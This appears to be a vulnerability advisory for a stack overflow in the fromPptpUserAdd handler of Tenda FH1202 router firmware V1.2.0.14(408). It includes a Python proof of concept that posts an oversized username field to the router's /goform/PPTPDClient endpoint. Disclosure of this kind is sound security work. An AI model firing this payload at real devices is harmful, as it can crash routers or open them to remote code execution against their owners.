 # Tenda FH1202 fromPptpUserAdd
### Overview
vendor: Tenda

product: FH1202

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the username parameter in the fromPptpUserAdd function.
### Vulnerability details
In function fromPptpUserAdd line 24, it reads in a user-provided parameter `username`, and the variable is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_4`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/10.png)
![](images/11.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPDClient"

data = {
    "username": "a" * 4000,
    "opttype": "2",
    "flag": "1"
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/12.png)
